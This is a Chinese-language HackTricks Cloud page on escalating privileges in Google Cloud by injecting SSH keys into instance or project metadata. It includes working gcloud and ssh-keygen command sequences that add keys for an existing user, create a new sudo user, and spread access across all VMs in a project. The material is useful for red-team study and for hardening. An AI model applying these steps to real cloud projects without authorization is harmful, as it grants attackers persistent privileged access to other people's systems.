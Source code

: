# GCP - 添加自定义SSH元数据

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

如果攻击者获得必要的权限，实例上的元数据修改可能会导致**重大安全风险**。

### **将SSH密钥合并到自定义元数据中**

在GCP上，**Linux系统**通常会从[Google Compute Engine的Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)执行脚本。其中一个关键组件是[accounts守护程序](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，它旨在**定期检查**实例元数据端点，以获取**授权的SSH公钥的更新**。

因此，如果攻击者可以修改自定义元数据，他可以使守护程序找到一个新的公钥，该公钥将被处理并**集成到本地系统**中。该密钥将被添加到现有用户的`~/.ssh/authorized_keys`文件中，或者根据密钥的格式，可能会创建一个具有`sudo`权限的新用户。攻击者将能够 compromise 主机。

### **将SSH密钥添加到现有特权用户**

1. **检查实例上现有的SSH密钥：**
- 执行命令描述实例及其元数据，以查找现有的SSH密钥。输出中的相关部分将位于`metadata`下，特别是`ssh-keys`键下。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- 注意SSH密钥的格式：用户名在冒号之前，用冒号分隔。

2. **为SSH密钥元数据准备文本文件：**
- 将用户名及其对应的SSH密钥的详细信息保存到名为`meta.txt`的文本文件中。这对于保留现有密钥并添加新密钥至关重要。

3. **为目标用户（此示例中为`alice`）生成新的SSH密钥：**
- 使用`ssh-keygen`命令生成新的SSH密钥，确保注释字段（`-C`）与目标用户名匹配。
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- 将新的公钥添加到`meta.txt`，模仿实例元数据中找到的格式。

4. **更新实例的SSH密钥元数据：**
- 使用`gcloud compute instances add-metadata`命令将更新后的SSH密钥元数据应用于实例。
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **使用新的SSH密钥访问实例：**
- 使用新密钥连接到实例的SSH，以在目标用户（此示例中为`alice`）的上下文中访问shell。
```bash
ssh -i ./key alice@localhost
sudo id
```

### **创建一个新的特权用户并添加SSH密钥**

如果没有找到有趣的用户，可以创建一个新用户，并赋予该用户`sudo`权限：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 项目级别的SSH密钥 <a href="#sshing-around" id="sshing-around"></a>

可以通过**在项目级别应用SSH密钥**来扩大在云环境中对多个虚拟机（VMs）的SSH访问范围。这种方法允许对项目中任何未明确阻止项目范围SSH密钥的实例进行SSH访问。以下是简要指南：

1. **在项目级别应用SSH密钥：**
- 使用`gcloud compute project-info add-metadata`命令将`meta.txt`中的SSH密钥添加到项目的元数据中。此操作确保SSH密钥在项目中的所有VM中被识别，除非VM启用了“阻止项目范围SSH密钥”选项。
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **使用项目范围密钥SSH进入实例：**
- 有了项目范围的SSH密钥，您可以SSH进入项目中的任何实例。未阻止项目范围密钥的实例将接受SSH密钥，从而授予访问权限。
- 直接SSH进入实例的方法是使用`gcloud compute ssh [INSTANCE]`命令。此命令使用您当前的用户名和在项目级别设置的SSH密钥尝试访问。


# 参考
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
